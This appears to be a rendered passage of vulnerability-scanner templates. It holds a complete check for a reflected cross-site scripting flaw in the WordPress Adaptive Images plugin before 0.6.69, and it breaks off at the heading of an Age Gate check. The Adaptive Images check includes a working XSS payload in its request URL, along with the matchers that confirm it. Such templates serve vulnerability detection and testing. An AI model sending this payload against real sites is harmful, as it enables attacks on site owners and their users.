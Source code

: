 **Type - status**

- status
  1. 200

---

# WordPress Adaptive Images \< 0.6.69 - Cross-Site Scripting

## Description

- WordPress Adaptive Images \< 0.6.69 is susceptible to cross-site scripting because the plugin does not sanitize and escape the REQUEST_URI before outputting it back in a page.
- severity - high
- tags - wpscan,wordpress,xss,wp-plugin,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/adaptive-images/adaptive-images-script.php/%3Cimg/src/onerror=alert(document.domain)%3E/?debug=true

### Matchers

**Type - word**

- words
  1. \<img/src/onerror=alert(document.domain)>
  2. \<td>Image\</td>
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Age Gate \<2.20.4 - Cross-Site Scripting

## Description
